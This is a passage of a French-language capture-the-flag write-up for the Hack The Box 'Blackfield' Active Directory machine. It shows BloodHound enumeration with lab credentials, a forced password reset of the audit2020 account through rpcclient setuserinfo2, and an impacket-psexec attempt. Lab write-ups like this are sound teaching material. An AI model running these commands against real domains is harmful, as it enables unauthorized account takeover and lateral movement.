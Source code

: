 ```
─# bloodhound-python -d BLACKFIELD.local -u support -p '#00^BlackKnight' -ns 10.129.229.17 -c All
INFO: Found AD domain: blackfield.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 18 computers
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 316 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: DC01.BLACKFIELD.local
INFO: Done in 06M 56S

```

Dans le Bloodhound et `Node Info` je clique sur `First Degree Object control` puis je trouve que l'utilisateur `support` peux `ForceChangePassword` de l'utilisateur `audit2020`

*The user SUPPORT@BLACKFIELD.LOCAL has the capability to change the user AUDIT2020@BLACKFIELD.LOCAL's password without knowing that user's current password.*

- https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword

**ForceChangePassword**

Pour cet attaque je vais utiliser `rpcclient` pour modifier le mot de passe sans meme connaitre son mot de passe avec l'option `setuserinfo2`

```
rpcclient $> setuserinfo2 
Usage: setuserinfo2 username level password [password_expired]
result was NT_STATUS_INVALID_PARAMETER
rpcclient $> setuserinfo2 audit2020 23 Password1
rpcclient $> 

┌──(root㉿xXxX)-[/home/…/CTFs/Boot2root/HTB/bloodhound]
└─# impacket-psexec BLACKFIELD.local/audit2020:Password1@10.129.229.17
Impacket v0.12.0.dev1+20231114.165227.4b56c18a - Copyright 2023 Fortra

[*] Requesting shares on 10.129.229.17.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
```